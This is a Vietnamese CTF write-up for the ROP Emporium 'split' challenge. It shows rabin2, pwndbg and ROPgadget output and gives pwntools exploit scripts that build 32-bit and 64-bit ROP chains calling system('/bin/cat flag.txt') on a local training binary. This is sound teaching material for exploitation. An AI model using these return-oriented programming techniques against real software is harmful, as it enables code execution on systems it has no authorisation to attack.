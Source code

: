 # split - challenge 2

[binary file and my exploit code](https://github.com/Hjn4Pwn/Pwn/tree/main/ROP/chall2_split)

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/ROP/chall2_split$ file split
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped
```

```python
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/ROP/chall2_split$ rabin2 -z split
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```

Ở đây thì ta đã thấy được chuỗi quan trọng là */bin/cat flag.txt* chúng ta có thể lợi dụng nó để in ra flag.

### usefulFunction

```python
pwndbg> disass usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:     push   rbp
   0x0000000000400743 <+1>:     mov    rbp,rsp
   0x0000000000400746 <+4>:     mov    edi,0x40084a
   0x000000000040074b <+9>:     call   0x400560 <system@plt>
   0x0000000000400750 <+14>:    nop
   0x0000000000400751 <+15>:    pop    rbp
   0x0000000000400752 <+16>:    ret
End of assembler dump.
```
Ta phân tích kĩ chỗ này 1 xíu bởi vì ở chall 32-bit thì có tí khác biệt. Ta thấy là trước lệnh call là **mov** giá trị vào **edi** hay **rdi** . Tức là trong kiến trúc 64-bit thì các tham số được đưa vào registers.

Trong khi đó ở kiến trúc 32-bit thay vì **mov** như trên thì nó lại là push tức là tham số lấy vào từ stack.
Do đó với kiến trúc 32-bit ta có : ***ROP chain = offset_padding + system_addr + bin_cat_command***

Còn 64-bit cho trường hợp hiện tại thì:

| Syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
|---------|------|------|------|------|------|------|
|  %rax   | %rdi | %rsi | %rdx | %rcx | %r8  | %r9  |

Nên là ta cần phải đưa địa chỉ lưu chuỗi */bin/cat flag.txt* đã nói ở trên vào thanh ghi **rdi** 

Bây giờ ta cần gadget có thể làm điều đó:

```c#
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/ROP/chall2_split$ ROPgadget --binary split | grep "pop rdi ; ret"
0x00000000004007c3 : pop rdi ; ret
```
Tuy nhiên vì đây là kiến trúc 64-bit: 
> The MOVAPS issue
>
>> If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system(). Some versions of GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction.

nên ta cần thêm gadget **ret** :
```shell
ROPgadget --binary split | grep "ret"
```
ta có được
```python
0x000000000040053e : ret
```

### Exploit:

#### 32-bit 
```python
from pwn import *
r = process("./split32")
#gdb.attach(r, api= True)

binsh = 0x0804a030
sys = 0x0804861a
ret =0x0804837e

payload = b'A'*44  + p32(sys) + p32(binsh)

r.sendline(payload)
r.interactive()
```
#### 64-bit
```python
from pwn import *
r = process("./split")

binsh = 0x00601060
sys = 0x0000000000400560 #do la mov chu khong push, neu push => nhay den dia chi stack
pop_rdi_ret = 0x00000000004007c3
ret = 0x000000000040053e

payload = b'A'*40 + p64(ret) + p64(pop_rdi_ret)  + p64(binsh) + p64(sys)

r.sendline(payload)
r.interactive()
```